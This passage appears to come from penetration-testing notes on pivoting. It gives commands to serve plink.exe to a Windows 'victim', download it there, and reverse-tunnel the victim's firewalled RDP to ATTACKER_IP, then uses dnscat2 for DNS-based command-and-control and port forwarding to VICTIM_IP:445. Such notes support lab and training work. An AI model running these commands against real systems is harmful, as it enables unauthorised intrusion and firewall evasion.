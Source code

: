 ```powershell
# check if SSH is on Windows
where ssh.exe

# check if version >= 7.6, so we can use Reverse Dynamic forwarding
ssh.exe -V
```

The other option is to copy **`plink.exe`** over to the Windows box.

> ⚠ **NOTE:** If you need a SOCKS proxy instead of just direct port forwarding, DON'T use plink! It doesn't support SOCKS. Use chisel instead!!!

```sh
# grab copy of plink and host on http for Windows victim
cp /usr/share/windows-resources/binaries/plink.exe .
python -m http.server 80

# on windows, download it
iwr http://LISTEN_IP/plink.exe -outfile C:\Windows\Temp\plink.exe

# use plink similar to ssh, with addition of '-l USER -pw PASSWD'
# Note: echo y accepts host key on non-interactive shells.
# This command opens up the victim's firewalled RDP to your kali box.
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l portfwd -pw herpderp -N -R 3389:127.0.0.1:3389 ATTACKER_IP
```


## Bending with `dnscat2`

[Dnscat2](https://github.com/iagox86/dnscat2) is a tool for securely tunneling traffic through DNS queries in order to perform C2 functions on a victim. It has a server and a client binary. You run the server on a DNS nameserver you own. You run the client on a victim. Once a client establishes a session with the server, you can use a command interface on the server (kinda like msfconsole) to interact with the client. This includes setting up port forwarding rules.

```sh
# on your DNS Nameserver, start the dnscat2 server:
dnscat2-server mydomain.com

# on your victim, start the dnscat2 client
./dnscat mydomain.com


# on your DNS Nameserver, in the dnscat2 command shell:
# list active sessions (windows)
dnscat2> windows
# interact with window/session 1
dnscat2> window -i 1
# get help, listing all commands
command (victim01) 1> ? # or 'help'
# get command help for 'listen' (sets up local fwd like ssh -L)
command (victim01) 1> listen --help
# start local port forwarding
command (victim01) 1> listen 0.0.0.0:4455 VICTIM_IP:445
# if you mess up and have to change the listening port,
# you have to kill the client and restart it.
# It's usually better to just pick a different listen port if you can.
# return to main command screen
command (victim01) 1> shutdown
# (after restarting victim client, you can retry your port forward)
# if you want to return to the top level command window
# without killing the client:
command (victim01) 1> suspend


```
